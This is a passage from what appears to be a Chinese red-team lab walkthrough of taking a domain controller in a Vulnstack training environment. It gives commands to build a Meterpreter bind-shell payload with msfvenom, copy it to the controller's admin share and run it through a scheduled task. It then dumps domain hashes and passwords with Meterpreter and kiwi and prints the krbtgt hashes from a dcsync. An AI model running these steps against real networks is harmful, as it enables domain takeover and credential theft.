 ![](https://img-blog.csdnimg.cn/7fb60b0d8916405cad01466a05f69d41.png)
#### 获取域控权限
首先生成一个32位木马
```bash
msfvenom -p windows/meterpreter/bind_tcp LPORT=8888 -f exe > exp.exe
```
![](https://img-blog.csdnimg.cn/b14b2f9aed064c22b8e1c8b468491ad6.png)
然后上传到我们的域控中
```
upload ~/exp.exe c:/
copy exp.exe \\WIN-ENS2VR5TR3N\c$\exp.exe
```
![](https://img-blog.csdnimg.cn/035f679f217b4bb7bc355d88116c1fcf.png)
![](https://img-blog.csdnimg.cn/6323ca82fa48463f8a78cd0f7c13dbd5.png)

最后写入定时任务
```bash
net time \\WIN-ENS2VR5TR3N
at \\WIN-ENS2VR5TR3N 10:35:00 c:/exp.exe
```
![](https://img-blog.csdnimg.cn/07297232b9844de7a9363668d89cdba7.png)

然后返回msf监听8888端口，成功获取shell
![](https://img-blog.csdnimg.cn/1f9a4581d2374590a1244b7774450d04.png)
使用`run post/windows/gather/smart_hashdump`抓取域内所有hash
使用kiwi的creds_all获取密码
![](https://img-blog.csdnimg.cn/0d4b2dc3886e4eae87d2ce5787408b11.png)
获取Administrator密码后就可以使用3389连接了
获取krbtgt的信息`dcsync_ntlm krbtgt`
![](https://img-blog.csdnimg.cn/6128863c8dd843309059b762b3310258.png)
>[+] Account   : krbtgt
[+] NTLM Hash : 7c4ed692473d4b4344c3ba01c5e6cb63
[+] LM Hash   : 4d81a5d6b591f0710e75884e5ef9cba2
[+] SID       : S-1-5-21-979886063-1111900045-1414766810-502
[+] RID       : 502


参考：
[ATT&CK实战系列—红队实战-4](https://blog.csdn.net/weixin_42918771/article/details/116207505)
[渗透-Vulnstack靶机学习4](https://www.c0bra.xyz/2020/02/22/%E6%B8%97%E9%80%8F-Vulnstack%E9%9D%B6%E6%9C%BA%E5%AD%A6%E4%B9%A04/)